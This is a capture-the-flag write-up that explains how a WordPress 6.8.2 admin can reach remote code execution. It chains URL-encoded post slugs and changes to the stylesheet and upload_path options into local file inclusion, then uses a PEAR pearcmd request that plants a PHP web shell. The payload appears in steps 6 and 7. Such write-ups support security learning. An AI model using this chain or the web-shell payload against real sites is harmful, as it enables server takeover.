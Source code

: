 # wp-admin

* Category: Web
* Score: 450/500
* Solves: 2

## Description

wp-admin to RCE, so easy...?

## Overview

You are given a latest WordPress 6.8.2 (latest version at the time) instance and the admin credentials. The goal is to get RCE on the server. Note that the instance is running on a Docker container, and the WordPress folder is set to be read-only.

## Solution

### The Challenge

The traditional way to get RCE on WordPress from admin panel is to use the theme or plugin editor to add a web shell. However, in this case, the WordPress folder is read-only, so we cannot modify any files directly.

One of the possible route is to get PHP serialized data into the option table in database, so that WordPress will unserialize it when it tries to read the option. However, when writing to the option tables through the admin panel, WordPress will try to detect if the data is serialized, and serialize it again if it is. This prevents unserialization attacks.

### Getting LFI

I expect there are possibly several ways to exploit this, but the specific gadget I used in from [template-loader.php](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template-loader.php#L55-L114). It first check what kind of the *Post* is being requested, and call the respective function to get the path to the template file (PHP file). Later, the returned template path is included, so we can achieve LFI if the returned template path can be controlled.

> In WordPress, a *Post* is not just an article, but also includes pages, attachments, and custom post types.

Owr target is [`get_single_template`](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template.php#L549-L572):

```php
function get_single_template() {
	$object = get_queried_object();

	$templates = array();

	if ( ! empty( $object->post_type ) ) {
		$template = get_page_template_slug( $object );
		if ( $template && 0 === validate_file( $template ) ) {
			$templates[] = $template;
		}

		$name_decoded = urldecode( $object->post_name );
		if ( $name_decoded !== $object->post_name ) {
			$templates[] = "single-{$object->post_type}-{$name_decoded}.php";
		}

		$templates[] = "single-{$object->post_type}-{$object->post_name}.php";
		$templates[] = "single-{$object->post_type}.php";
	}

	$templates[] = 'single.php';

	return get_query_template( 'single', $templates );
}
```

While the `post_type` can't be controlled, and it is `post` for normal articles, the `post_name` can be controlled. The `post_name` is the *Slug* of the post, which can be changed in the admin panel.

![Editing the slug of a post](imgs/edit-slug.png)

However, if we try to put characters like `/` or `..` in the slug, it would be sanitized. Fortunately, the `urldecode` function in `get_single_template` will decode URL encoded characters, so we simply URL encode the path traversal characters. So now, we can control the suffix of the template path to be `single-post-[SLUG].php`.

The `$templates` array is passed to [`get_query_template`](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template.php#L23-L104), which calls [`locate_template`](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template.php#L718-L749) to find the full path of templates.

```php
function locate_template( $template_names, $load = false, $load_once = true, $args = array() ) {
	global $wp_stylesheet_path, $wp_template_path;

	if ( ! isset( $wp_stylesheet_path ) || ! isset( $wp_template_path ) ) {
		wp_set_template_globals();
	}

	$is_child_theme = is_child_theme();

	$located = '';
	foreach ( (array) $template_names as $template_name ) {
		if ( ! $template_name ) {
			continue;
		}
		if ( file_exists( $wp_stylesheet_path . '/' . $template_name ) ) {
			$located = $wp_stylesheet_path . '/' . $template_name;
			break;
		} elseif ( $is_child_theme && file_exists( $wp_template_path . '/' . $template_name ) ) {
			$located = $wp_template_path . '/' . $template_name;
			break;
		} elseif ( file_exists( ABSPATH . WPINC . '/theme-compat/' . $template_name ) ) {
			$located = ABSPATH . WPINC . '/theme-compat/' . $template_name;
			break;
		}
	}

	if ( $load && '' !== $located ) {
		load_template( $located, $load_once, $args );
	}

	return $located;
}
```

The function will check the existence of the template files in three locations:

1. `$wp_stylesheet_path`: The path of the active theme.
2. `$wp_template_path`: The path of the parent theme, if a child theme is used.
3. `ABSPATH . WPINC . '/theme-compat/'`: A fallback directory in WordPress core files.

The `$wp_stylesheet_path` is the `stylesheet` option in the database, which can be changed in `/wp-admin/options.php`. So the full returned template path is:

```
[THEME_PATH]/single-post-[SLUG].php
```

Where `[THEME_PATH]` is the value of `stylesheet` option, and `[SLUG]` is the slug of the post. If we set `stylesheet` to `../../../../tmp` and the slug to `/../../something`, the path would be:

```
../../../../tmp/single-post-/../../something.php
```

This means if `/tmp/single-post-` folder exists, we can include any file ends with `.php` under the file system, achieving LFI.

But how do we create `/tmp/single-post-` folder? It is actually quite easy, just change the `upload_path` option and upload an attachment. The attachment will be stored in `[UPLOAD_PATH]/[YEAR]/[MONTH]/`, and WordPress will create the folder if it does not exist. So if we set `upload_path` to `/tmp/single-post-`, then the folder will be created when we upload an attachment.

### LFI to RCE

Now, we can basically include any PHP file on the server, how to pop a shell from it? Using `find / -name '*.php'` in the WordPress container, we can find `pearcmd.php` so the well-known PEAR LFI to RCE trick also works here.

### Chaining All Together

To exploit this, follow these steps:

1. Ensure at least two posts exist.
2. Change the slug of the first to `%2f%2e%2e%2f%2e%2e%2fusr%2flocal%2flib%2fphp%2fpearcmd` and the second to `%2f%2e%2e%2f%2e%2e%2ftmp%2fshell`, and record their post IDs.
3. Change `stylesheet` option to `../../../../tmp`.
4. Change `upload_path` option to `/tmp/single-post-`.
5. Upload an attachment somewhere to create `/tmp/single-post-` folder.
6. Access `/?p=[PEARCMD_POST_ID]&+config-create+/<?system($_GET[0]);die();?>+/tmp/shell.php` to write a web shell to `/tmp/shell.php`.
7. Access `/?p=[SHELL_POST_ID]&0=/readflag` to get the flag.

See [solve.py](./exp/solve.py) for the full exploit script.
